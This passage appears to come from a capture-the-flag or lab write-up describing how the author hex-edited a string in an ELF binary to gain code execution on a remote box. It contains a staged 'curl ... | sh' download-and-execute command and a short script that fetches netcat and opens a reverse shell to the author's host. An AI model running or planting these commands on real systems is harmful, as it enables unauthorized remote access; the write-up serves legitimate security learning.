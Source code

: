 ![](../.gitbook/assets/19-protobs-ghex.png)

While browsing through the file, I saw a string in the ELF that looks suspiciously like a shell command: `stty raw -echo min 0 time 10`. Since this command was placed in the program as a plain string, perhaps I could replace it with my own command and could possibly get code execution on the remote server. 

### Researching how to replace a section of code inside an ELF executable

I did some research into how to replace a section of code in the ELF, and came up with [https://reverseengineering.stackexchange.com/questions/14607/replace-section-inside-elf-file](https://reverseengineering.stackexchange.com/questions/14607/replace-section-inside-elf-file).  This in turn led to: [https://unix.stackexchange.com/questions/214820/patching-a-binary-with-dd](https://unix.stackexchange.com/questions/214820/patching-a-binary-with-dd).  Using strings to determine the byte offset of the code to replace, then using `dd` it is possible to replace arbitrary code.  However, it seemed to me as if all they were doing was some fancy cut and paste.  

I knew from previous experience from doing CTFs that you could modify the hex code of a file \(and by extension the ASCII strings they represent\) almost as easily as using a regular text editor.  I decided to try "cheating" a bit using GHex. I selected the string I wanted to replace, and wrote my own commands in its place.  I kept it as simple as possible since I didn't know what kind of checks the verification would do, and decided to create a staged payload. I wanted this program to download a script that would be hosted on my local python SimpleHTTPServer.  My code read:`curl 10.10.15.20:8090/a | sh` .  This would download my script called simply `a` and then execute it using `sh`.  _I would have used bash, but nearly every Linux box is guaranteed to have `sh` or at least something aliased to it, and this also saved me a couple characters!_  

```text
#!/bin/sh
#get netcat in case remote system can't '-e'
curl 10.10.15.20:8090/nc -o /dev/shm/nc 
#make netcat executable
chmod +x /dev/shm/nc 
#use netcat reverse shell
/dev/shm/nc 10.10.15.20 12345 -e /bin/sh 
```
